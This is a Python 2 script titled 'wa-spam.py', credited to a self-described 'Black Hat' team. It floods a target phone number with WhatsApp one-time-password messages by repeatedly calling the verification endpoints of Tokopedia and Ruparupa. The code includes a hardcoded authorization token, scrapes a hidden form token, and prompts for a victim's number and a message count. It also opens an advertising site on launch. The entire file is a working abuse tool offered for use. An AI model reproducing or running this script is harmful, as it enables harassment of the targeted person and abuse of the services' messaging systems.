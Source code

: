 # wa-spam.py
#!/usr/bin/python2

# Creator :  ./RanddSoft
# Team : Black Hat
# Never Mind

from requests import ConnectionError
from time import sleep
import requests, sys, os, re, random

os.system('clear')

M = '\033[1;31m'
H = '\033[1;32m'
K = '\033[1;33m'
U = '\033[1;34m'
P = '\033[1;35m'
C = '\033[1;36m'
W = '\033[1;37m'
A = '\033[90m'

def MesinTik(text):
	for x in text + '\n':
		sys.stdout.write(x)
		sys.stdout.flush()
		sleep(random.random() * 0.05)
	
def MesinTik_2(text):
	for x in text + '\n':
		sys.stdout.write(x)
		sys.stdout.flush()
		sleep(random.random() * 0.02)
	
def Banner():
	MesinTik_2(''+C+'''

  ____                         __        __    
 / ___| _ __   __ _ _ __ ___   \ \      / /_ _ 
 \___ \| '_ \ / _` | '_ ` _ \   \ \ /\ / / _` |
  ___) | |_) | (_| | | | | | |   \ V  V / (_| |
 |____/| .__/ \__,_|_| |_| |_|    \_/\_/ \__,_|
       |_|                                     
                   '''+W+'Creator : ./RanddSoft\n\t\t   Web : randdsoftindonesia.com')
                   
def RupaRupa():
	print
	MesinTik(C+'\t SPAM RUPA RUPA')
	MesinTik(W+'\t================')
	print
	number = raw_input(''+C+'MASUKKAN NOMOR TARGET'+W+' ('+H+' Ex :'+C+' 0812xxxx '+W+') : ')
	jumlah = input(''+C+'JUMLAH SPAM'+W+' ('+H+' Ex :'+C+' 3 '+W+') : ')
	print
	MesinTik_2(''+C+'-------------- '+W+'Starting'+C+' --------------')
	print
	hitung = len(number)
	
	if hitung < 9:
		print
		print(M+'Nomor Tidak Valid !')
		sys.exit()
	
	for x in range(jumlah):
		try:
			
			headers_1 = {
			
			'User-Agent' : 'Mozilla/5.0 (Linux; Android 5.1.1; AFTT Build/LVY48F; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/49.0.2623.10',
			'Accept' : 'application/json',
			'Origin' : 'https://m.ruparupa.com',
			'Referer' : 'https://m.ruparupa.com/my-account',
			'authorization' : 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiYjMzZTk5NjctMjdhMy00ZjkxLWE2M2MtM2M4NzMyZTZhOTU2IiwiaWF0IjoxNTgwNjM2ODI0LCJpc3MiOiJ3YXBpLnJ1cGFydXBhIn0.pC9EDy_79GIDd4NOJKZP2kH5EjPdUK5VGUn59CzsdG0',
			'x-company-name' : 'odi'
			
			}
			
			data_1 = {
			
			'phone' : number,
			'email' : 'jejak@gmail.com',
			'action' : 'register',
			'password' : ''
			
			}
			
			headers_2 = {
			
			'authorization' : 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiYjMzZTk5NjctMjdhMy00ZjkxLWE2M2MtM2M4NzMyZTZhOTU2IiwiaWF0IjoxNTgwNjM2ODI0LCJpc3MiOiJ3YXBpLnJ1cGFydXBhIn0.pC9EDy_79GIDd4NOJKZP2kH5EjPdUK5VGUn59CzsdG0',
			'x-company-name' : 'odi', 
			'User-Agent' : 'Mozilla/5.0 (Linux; Android 5.1.1; AFTT Build/LVY48F; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/49.0.2623.10',
			'Origin' : 'https://m.ruparupa.com',
			'referer' : 'https://m.ruparupa.com/verification?page=otp-choices',
			'accept-encoding' : 'gzip, deflate, br' 
			
			}
			
			data_2 = {
			
			'phone' : number,
			'action' : 'register',
			'channel' : 'chat',
			'email' : '',
			'customer_id' : '0',
			'is_resend' : 0
			
			}
			
			url_1 = 'https://wapi.ruparupa.com/auth/check-otp-auth'
			url_2 = 'https://wapi.ruparupa.com/auth/generate-otp'
			
			sending_1 = requests.post(url_1, headers = headers_1, data = data_1)
			sending_2 = requests.post(url_2, headers = headers_2, data = data_2)
			
			if 'tunggu 1x24 jam' in sending_2.text:
				print
				print(''+W+'Pengiriman Sudah Limit\nSilahkan Coba 1 x 24 Jam Lagi :)')
				break
				
			else:
				print(''+C+'['+W+'*'+C+']'+W+' SPAM KE NOMOR '+C+number+W+' BERHASIL DIKIRIMKAN !')
		
		except ConnectionError:
			print
			print(M+'Cek Koneksi JaringanMu Gan !')
			break
		
		except NameError:
			print
			print(M+'Jumlah Harus Berupa Angka, Bukan Huruf !')
			break
			

def Tokped():
	print
	MesinTik(C+'\t SPAM TOKOPEDIA')
	MesinTik(W+'\t================')
	print
	number = raw_input(''+C+'MASUKKAN NOMOR TARGET'+W+' ('+H+' Ex :'+C+' 0812xxxx '+W+') : ')
	jumlah = input(''+C+'JUMLAH SPAM'+W+' ('+H+' Ex :'+C+' 3 '+W+') : ')
	print
	MesinTik_2(''+C+'-------------- '+W+'Starting'+C+' --------------')
	print
	for x in range(jumlah):
		try:
			
			headers = {
			
			'Connection' : 'keep-alive',
			'Accept' : 'application/json, text/javascript, */*; q=0.01',
			'Origin' : 'https://accounts.tokopedia.com',
			'X-Requested-With' : 'XMLHttpRequest',
			'User-Agent' : '{acak}',
			'Content-Type' : 'application/x-www-form-urlencoded; charset=UTF-8',
			'Accept-Encoding' : 'gzip, deflate',
			
			} 
			
			site = requests.get('https://accounts.tokopedia.com/otp/c/page?otp_type=116&msisdn='+number+'&ld=https%3A%2F%2Faccounts.tokopedia.com%2Fregister%3Ftype%3Dphone%26phone%3D{}%26status%3DeyJrIjp0cnVlLCJtIjp0cnVlLCJzIjpmYWxzZSwiYm90IjpmYWxzZSwiZ2MiOmZhbHNlfQ%253D%253D', headers = headers).text
			search = re.search(r'\<input\ id\=\"Token\"\ value\=\"(.*?)\"\ type\=\"hidden\"\>', site).group(1)
			
			data = {
			
			'otp_type' : '116',
			'msisdn' : number,
			'tk' : search,
			'email' : '',
			'original_param' : '',
			'user_id' : '',
			'signature' : '',
			'number_otp_digit' : '6',
			
			} 
			
			sleep(30) # Jangan Di Rubah Nilai Sleepnya, Itu Udah Default.
			
			sending = requests.post('https://accounts.tokopedia.com/otp/c/ajax/request-wa', headers = headers, data = data)
				
			if 'Anda sudah melakukan 3 kali pengiriman kode' in sending.text:
				print
				print(''+W+'Pengiriman Sudah Limit\nSilahkan Coba 25 - 60 Menit Lagi :)')
				break
				
			else:
				print(''+C+'['+W+'*'+C+']'+W+' SPAM KE NOMOR '+C+number+W+' BERHASIL DIKIRIMKAN !')
				
		except ConnectionError:
			print
			print(M+'Cek Koneksi JaringanMu Gan !')
			break
		
		except NameError:
			print
			print(M+'Jumlah Harus Berupa Angka, Bukan Huruf !')
			break
                   
                   
def Spam():
	os.system('clear')
	print(C+'Klik Iklan Dulu'+W+' Su !'+C+' :V')
	sleep(1.5)
	os.system('xdg-open https://randdsoftindonesia.com/')
	os.system('clear')
	sleep(1.3)
	Banner()
	print
	print
	print(C+'MENU'+W+' :')
	print(C+'\t['+W+'1'+C+']'+W+' SPAM TOKOPEDIA'+C+' ( '+H+'Aktif'+C+' )')
	print(C+'\t['+W+'2'+C+']'+W+' SPAM RUPA-RUPA'+C+' ( '+M+'NonAktif'+C+' )')
	print
	
	try:
		
		pilih = input(C+'PILIH MENU'+W+' \xE2\x9E\xA4 '+C+'')
		if pilih == 1:
			Tokped() 
		elif pilih == 2:
			RupaRupa()
		else:
			pass
			
	except NameError:
		print
		print(M+'Pilih Menu Harus Berupa Angka, Bukan Huruf !')
		sys.exit()
			
if __name__ == '__main__':
	Spam()
